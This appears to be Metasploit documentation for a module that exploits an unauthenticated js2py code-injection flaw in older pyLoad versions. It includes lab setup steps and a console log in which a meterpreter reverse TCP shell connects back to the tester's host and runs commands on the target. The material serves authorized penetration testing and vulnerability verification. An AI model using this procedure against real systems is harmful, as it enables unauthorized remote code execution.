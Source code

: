 ## Vulnerable Application

pyLoad versions prior to 0.5.0b3.dev31 are vulnerable to Python code injection due to the pyimport
functionality exposed through the js2py library. An unauthenticated attacker can issue a crafted POST request
to the flash/addcrypted2 endpoint to leverage this for code execution. pyLoad by default runs two services,
the primary of which is on port 8000 and can not be used by external hosts. A secondary "Click 'N' Load" service runs on
port 9666 and can be used remotely without authentication.

## Verification Steps

1. Start a vulnerable instance of pyLoad using docker
2. Start msfconsole
3. Run: `use exploit/linux/http/pyload_js2py_exec`
4. Set the `RHOST`, `PAYLOAD` and payload associated options
5. Run: `run`

### Docker Setup

```
docker run -d \
  --name=pyload-ng \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -p 8000:8000 \
  -p 9666:9666 \
  --restart unless-stopped \
  lscr.io/linuxserver/pyload-ng:version-0.5.0b3.dev30
```

## Options

## Scenarios

### pyLoad 0.5.0b3.dev30 via Docker

```
msf6 > use exploit/linux/http/pyload_js2py_exec 
[*] Using configured payload cmd/unix/generic
msf6 exploit(linux/http/pyload_js2py_exec) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(linux/http/pyload_js2py_exec) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/pyload_js2py_exec) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(linux/http/pyload_js2py_exec) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (24380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 172.17.0.2:40830) at 2023-02-15 15:28:52 -0500

meterpreter > getuid
Server username: abc
meterpreter > sysinfo
Computer     : f03ec089a4fe
OS           : Linux 6.0.18-200.fc36.x86_64 #1 SMP PREEMPT_DYNAMIC Sat Jan 7 17:08:48 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/config/data
meterpreter > 
```
